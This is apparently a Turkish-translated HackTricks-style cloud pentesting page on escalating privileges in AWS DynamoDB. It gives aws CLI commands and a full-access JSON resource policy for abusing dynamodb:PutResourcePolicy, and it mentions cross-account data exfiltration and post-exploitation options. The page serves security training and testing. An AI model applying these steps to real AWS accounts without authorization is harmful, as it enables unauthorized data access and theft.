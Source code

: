 # AWS - DynamoDB Privesc

{{#include ../../../banners/hacktricks-training.md}}

## dynamodb

DynamoDB hakkında daha fazla bilgi için kontrol edin:

{{#ref}}
../aws-services/aws-dynamodb-enum.md
{{#endref}}

### `dynamodb:PutResourcePolicy`, ve isteğe bağlı olarak `dynamodb:GetResourcePolicy`

Mart 2024'ten itibaren, AWS DynamoDB için *kaynak tabanlı politikalar* sunmaktadır ([AWS News](https://aws.amazon.com/about-aws/whats-new/2024/03/amazon-dynamodb-resource-based-policies/)).

Bu nedenle, bir tablo için `dynamodb:PutResourcePolicy`'ye sahipseniz, kendinize veya başka bir kullanıcıya tabloya tam erişim verebilirsiniz.

`dynamodb:PutResourcePolicy`'yi rastgele bir kullanıcıya vermek genellikle yanlışlıkla olur; eğer yöneticiler `dynamodb:Put*` vermenin yalnızca kullanıcının veritabanına öğe eklemesine izin vereceğini düşünürse - veya bu izin setini Mart 2024'ten önce verdilerse...

İdeal olarak, diğer potansiyel olarak hayati izinleri geçersiz kılmamak için `dynamodb:GetResourcePolicy`'ye de sahip olmalısınız, böylece yalnızca ihtiyaç duyduğunuz ek izinleri ekleyebilirsiniz:
```bash
# get the current resource based policy (if it exists) and save it to a file
aws dynamodb get-resource-policy \
--resource-arn <table_arn> \
--query 'Policy' \
--output text > policy.json
```
Eğer mevcut politikayı alamıyorsanız, sadece bu politikayı kullanın; bu, tablonuz üzerinde tam erişim sağlar:
```json
{
"Version": "2012-10-17",
"Statement": [
{
"Sid": "FullAccessToDynamoDBTable",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<ACCOUNT_ID>:<USER_OR_ROLE>/<USERNAME_OR_ROLENAME>"
},
"Action": [
"dynamodb:*"
],
"Resource": [
"arn:aws:dynamodb:<REGION>:<AWS_ACCOUNT_ID>:table/<TABLENAME>"
]
}
]
}
```
Eğer bunu özelleştirmeniz gerekiyorsa, işte tüm olası DynamoDB eylemlerinin bir listesi: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Operations.html). Ve burada bir kaynak tabanlı politika aracılığıyla izin verilebilecek tüm eylemlerin bir listesi *VE bunlardan hangilerinin hesaplar arası kullanılabileceği (veri sızdırma düşünün!)*: [AWS Documentation](https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/rbac-iam-actions.html)

Şimdi, `policy.json` politika belgesi hazır olduğuna göre, kaynak politikasını ekleyin:
```bash
# put the new policy using the prepared policy file
# dynamodb does weirdly not allow a direct file upload
aws dynamodb put-resource-policy \
--resource-arn <table_arn> \
--policy "$(cat policy.json)"
```
Artık ihtiyaç duyduğunuz izinlere sahip olmalısınız.

### Post Exploitation

Bildiğim kadarıyla, sadece bazı AWS `dynamodb` izinlerine sahip olarak AWS'de yetkileri artırmanın **başka doğrudan bir yolu yoktur**. Tabloalardan **hassas** bilgileri okuyabilir (bu bilgiler AWS kimlik bilgilerini içerebilir) ve tablolara **bilgi yazabilirsiniz** (bu, diğer güvenlik açıklarını tetikleyebilir, örneğin lambda kod enjeksiyonları...) ancak bu seçeneklerin hepsi zaten **DynamoDB Post Exploitation sayfasında** dikkate alınmıştır:

{{#ref}}
../aws-post-exploitation/aws-dynamodb-post-exploitation.md
{{#endref}}

### TODO: Veri Akışlarını kötüye kullanarak veri oku

{{#include ../../../banners/hacktricks-training.md}}
